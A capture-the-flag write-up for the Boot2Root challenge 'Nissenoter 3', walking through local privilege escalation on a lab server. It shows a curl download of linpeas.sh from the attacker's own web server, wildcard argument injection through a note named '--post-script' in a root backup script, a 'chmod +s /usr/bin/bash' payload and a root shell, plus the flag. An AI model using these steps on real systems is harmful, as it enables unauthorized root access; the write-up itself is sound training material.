 +++
title = 'Nissenoter 3'
categories = ['Boot2Root']
date = 2023-12-15T15:33:38+01:00
 scrollToTop = true
+++

## Challenge Name:

Nissenoter 3

## Category:

Boot2Root

## Challenge Description:

Vi er sikre på, nisserne deler statshemmeligheder, hvorfor skulle netværket ellers være lukket og være beskyttet af teknologi i verdensklasse? - Vores praktikant siger i hvert fald, at det er verdensklasse.

_Opgaven er tilgængelig via Haaukins:_

https://ncctf.haaukins.dk/

## Approach

### The final enumeration

Continuing from [Nissenoter 2](/nc3/boot2root/nissenoter-2) we now have foothold on the server as a user!

Let's immediately execute some initial enumeration and see what we can find

```bash
rrensdyr@edc9b2907c7e:~$ whoami && uname -a && sudo -l
rrensdyr
Linux edc9b2907c7e 5.15.0-88-generic #98-Ubuntu SMP Mon Oct 2 15:18:56 UTC 2023 x86_64 GNU/Linux
-bash: sudo: command not found
```

We are connected as the rrendsyr user on a Linux system, but cannot execute anything as super user. We already know from the previous challenge, that the only file in our home directly is the flag.

```bash
rrensdyr@edc9b2907c7e:~$ find / -type f -perm -04000 -ls 2>/dev/null
  5943279     60 -rwsr-xr-x   1 root     root        59704 Mar 23  2023 /usr/bin/mount
  5943371     36 -rwsr-xr-x   1 root     root        35128 Mar 23  2023 /usr/bin/umount
  5943284     48 -rwsr-xr-x   1 root     root        48896 Mar 23  2023 /usr/bin/newgrp
  5943295     68 -rwsr-xr-x   1 root     root        68248 Mar 23  2023 /usr/bin/passwd
  5943160     52 -rwsr-xr-x   1 root     root        52880 Mar 23  2023 /usr/bin/chsh
  5943347     72 -rwsr-xr-x   1 root     root        72000 Mar 23  2023 /usr/bin/su
  5943154     64 -rwsr-xr-x   1 root     root        62672 Mar 23  2023 /usr/bin/chfn
  5943221     88 -rwsr-xr-x   1 root     root        88496 Mar 23  2023 /usr/bin/gpasswd
  6704110    640 -rwsr-xr-x   1 root     root       653888 Sep 23 22:11 /usr/lib/openssh/ssh-keysign
  6704087     52 -rwsr-xr--   1 root     messagebus    51272 Sep 16 10:03 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  rrensdyr@edc9b2907c7e:~$
```

The intention of this command is to look for [SUID bits](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit), which can be used in certain situations to escalate privileges (PrivEsc). One great site for finding such tricks is [GTFOBINS](https://gtfobins.github.io/).
Unfortunately this is also not a possible path forward, seeing as only the root user has these bits set.

We therefore upload an enumeration script from our attacking machine to the victim by opening a webserver from our Kali machine

```bash
┌──(haaukins㉿kali)-[~]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

and on the victim we make a wget request to download linPeas

```bash
rrensdyr@edc9b2907c7e:~$ curl -O http://77.229.233.4:1337/linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  815k  100  815k    0     0  51.5M      0 --:--:-- --:--:-- --:--:-- 53.1M
rrensdyr@edc9b2907c7e:~$ ls
flag.txt  linpeas.sh
rrensdyr@edc9b2907c7e:~$ chmod +x linpeas.sh
```

After downloading the [enumeration script](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and making it executable, we run it and read through the report, in which we see that there is an interesting "/var/backups/backup.sh" script owned by root

```bash
╔══════════╣ Backup files (limited 100)
-rwxr-xr-x 1 root root 632 Dec  8 08:27 /var/backups/backup.sh
```

Let's take a look at this script

```bash
#!/bin/bash

user_notes="/var/www/html/user_notes/"
backup_dir="/var/backups/user_notes/"
backup_file="$backup_dir$(date +%Y%m%d-%H%M%S).tar.gz"

function backup {
  pushd "$user_notes" > /dev/null || exit
  tmp_dir=$(mktemp -d)
  /usr/local/bin/backup -o "$tmp_dir" *
  pushd "$tmp_dir" > /dev/null || exit
  tar -czf "$backup_file" .
  popd > /dev/null || exit
  rm -rf "$tmp_dir"
}

function remove_old_backups {
  dir_files=$(find $backup_dir -type f -name "*.tar.gz" | wc -l)

  if [[ "$dir_files" -gt 7 ]]; then
    find $backup_dir -type f -name "*.tar.gz" | sort | head -n -7 | xargs rm -f
  fi
}

backup
remove_old_backups
```

Upon examining the backup.sh script, we confirm that it indeed takes backups. Two functions are defined: backup and remove_old_backups. Starting with remove_old_backups, we see that it checks if there are more than 7 files ending with .tar.gz in the "/var/backups/user_notes/" directory and deletes the oldest files to leave only 7 remaining.

The backup function changes the current directory to "/var/www/html/user_notes/", then creates a temporary folder. Once this is done, a binary file, "/usr/local/bin/backup", is called with some parameters. After the binary is called, the script moves the folder to temp_dir, where it packs all the files in the folder into a .tar.gz file and saves this file in "/var/backups/user_notes/".

It's time to take a closer look at "/usr/local/bin/backup". Firstly, to find out what -o does, even though we can guess based on the script, but also to see if there are other parameters that can be set. The reason this is interesting is the way the file is called. Namely, with _, which is a Bash Wildcard, as the last parameter. In bash, _ expands to all files in the current directory, so in principle, backup is called as follows.

```bash
/usr/local/bin/backup -o "/tmp/tmp.3yNOBzjK59" file1 file2 file3 etc
```

This means that if there are any interesting parameters that can be set in connection with backup, we have the opportunity to set them if we can control the filenames that appear in "/var/www/html/user_notes/". Therefore, let's immediately check what backup can do.

```bash
rrensdyr@bdf69f47608c:~$ /usr/local/bin/backup
Missing output folder
Allowed options:
--help produce help message
-i [ --input-files ] arg Files to backup
-o [ --output-folder ] arg Folder to backup to
--pre-script arg Script to run before starting the backup
--post-script arg Script to run after finishing the backup
```

Okay, it looks like it can run scripts both before and after a backup has been made, via --pre-script and --post-script, respectively. From here, one can either take an educated guess, guessing that, for example, .sh files are meant, or download and reverse engineer the backup binary.

We take an educated guess. So let's write two files to "/var/www/html/user_notes/", one named "--post-script", and one named "Adamino", containing our exploit. Unfortunately, rrensdyr cannot write to the folder, so we need to do it through the web interface.

First, we create a note with the title Adamino and the following content:

```bash
#!/usr/bin/bash
chmod +s /usr/bin/bash
```

"chmod +s" is used for setuid and ensures that a binary will run with the privileges of the file owner. In this case, the owner is root, which happens to be the user we want to access.

Then, a note is created with the title "--post-script" and arbitrary content. Once that file is created, our exploit code will be executed.

```bash
rrensdyr@bdf69f47608c:~$ ls -l /usr/bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 23 2023 /usr/bin/bash
```

As we can see in the snippet above, setuid (SUID) and setguid (SGID) have been set on /usr/bin/bash, which is perfect. If we now call bash with the -p flag, for privileged mode, we get a root shell.

```bash
rrensdyr@bdf69f47608c:~$ bash -p
bash-5.2# whoami
root
```

As shown in the snippet above, we have now succeeded, and the final flag can be retrieved!

```bash
bash-5.2# cat /root/flag.txt
NC3{1. Always backup; 2. Forget --; 3. ???? 4. Profit!}
```

## Flag

```text
NC3{1. Always backup; 2. Forget --; 3. ???? 4. Profit!}
```

## Reflections and Learnings

### Initial Enumeration and Strategy:

Employing tools like linpeas.sh was a critical step. It allowed us to discover the /var/backups/backup.sh script, which became the focal point for further investigation. This reinforces the importance of using the right tools for efficient system analysis.

### Analyzing the Backup Script:

The deep dive into the backup.sh script was a reminder that sometimes, the path to escalation lies not in exploiting a weakness but in leveraging the intended functionality of system scripts.

### Exploiting the Backup Binary:

The discovery of the --pre-script and --post-script options in /usr/local/bin/backup was pivotal. It’s a lesson in thorough examination and thinking creatively about how to use the system's features to our advantage.

### The journey at an end

All in all Nissenoter was great fun and a wonderful learning path for Web exploitation! In its essence it was a tremendous showcase of a "typical HackTheBox" challenge, in which we through careful enumeration can identify exploits to execute in order to gain foothold and in the end escalate our privileges to become system administrator and retrieve the final flag!
